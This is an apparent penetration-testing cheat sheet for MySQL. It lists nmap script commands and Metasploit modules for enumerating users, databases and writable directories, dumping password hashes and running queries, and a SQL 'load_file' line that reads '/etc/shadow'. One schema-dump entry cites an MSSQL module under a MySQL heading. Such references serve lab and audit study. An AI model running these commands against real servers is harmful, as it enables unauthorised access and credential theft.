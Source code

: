 
### Using `nmap` to enumerate accounts with NULL password

```
nmap -p 3306 -sV <target-IP> --script mysql-empty-password
```

### Using `nmap` to enumerate SQL server info

```
nmap -p 3306 -sV <target-ip> --script mysql-info
```

### Using `nmap` to enumerate users

```
nmap -p 3306 -sV <target-ip> --script mysql-users --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate databases

```
nmap -p 3306 -sV <target-ip> --script mysql-databases --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to enumerate variables

- Using the `mysql-variables` script to retrieve configuration and system information from the MySQL server:
```
nmap -p 3306 -sV <target-ip> --script mysql-variables --script-args="mysqluser='root',mysqlpass=''"
```

### Using `nmap` to perform audit on the SQL server

```
nmap --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -p 3306 192.164.28.3
```

- The `mysql-audit` script in Nmap is designed to perform security audits on MySQL database servers by checking for compliance with specific security configurations, guidelines, or benchmarks.

### Using `nmap` to dump hashes

- Dumps the password hashes from an MySQL server in a format suitable for cracking by tools such as John the Ripper.
```
nmap -p 3306 <ip> --script mysql-dump-hashes --script-args='username=root,password=secret'
```

### Using `nmap` to run MySQL queries

```
nmap -p 3306 <ip> --script mysql-query --script-args="query='select count(*) from books.authors;',username='root',password='secret'"
```

### Using `metasploit` to enumerate directories
- Metasploit module to enumerate ***readable*** directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_file_enum
```

- Metasploit module to enumerate ***writable*** directories in the system using MySQL:
```
use auxiliary/scanner/mysql/mysql_writable_dirs
```

- **WordList path** - /usr/share/metasploit-framework/data/wordlists/directory.txt
- Set verbosity to `false` to avoid getting spammed with too many messages. 
- To show more options use command `advanced`
- Instead of using `set <RHOSTS>`, we can use `setg <RHOSTS>` to set it as a global variable, so that we don't have to set it again when we switch to another module.

**How does this module work ?**

This Metasploit module doesn't enumerate directories in the traditional sense but rather checks if MySQL has write access to specific directories by executing SQL queries that attempt to create temporary files in those directories. If the MySQL server has the necessary permissions and access rights, it will allow the creation of files in those directories.

### Using `metasploit` to dump schema

```
use auxiliary/scanner/mssql/mssql_schemadump
```

- A schema in a database is a container for database objects like tables, views, procedures, and functions.
### Using `sql_hashdump` module

- Metasploit module to collect the hashes of different users who have access to the MySQL server from the user account information stored in the `mysql.user` table:
```
use auxiliary/scanner/mysql/mysql_hashdump
```

### Using `mysql` to access sensitive files

- `mysql` command to access `/etc/shadow` file.
```
select load_file("/etc/shadow")
```

- *The `/etc/shadow` file keeps records about encrypted users' passwords, as well as other passwords related information.
